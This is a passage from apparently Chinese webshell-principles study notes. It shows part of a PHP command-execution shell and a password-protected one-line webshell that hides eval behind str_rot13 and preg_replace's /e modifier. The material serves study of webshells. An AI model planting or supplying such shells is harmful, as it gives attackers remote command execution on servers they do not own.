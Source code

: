 ```php
    	@pclose($x);
	}elseif(f('exec')){
    	$w=array();exec($c,$w);
    	$w=join(chr(10),$w).chr(10);
	}else{
    	$w=0;
	}
	print "<pre>".$w."</pre>";
?>
```

#### 2.php

```php
# php5可执行，php7+ 不可执行,可能是preg_replace()函数
# password : b4dboy
```

```php
<?php ($b4dboy = $_POST['b4dboy']) &&
@preg_replace('/ad/e','@'.str_rot13('riny')."($b4dboy)", 'add'); ?>
```

![](webshell原理.assets/2.png)
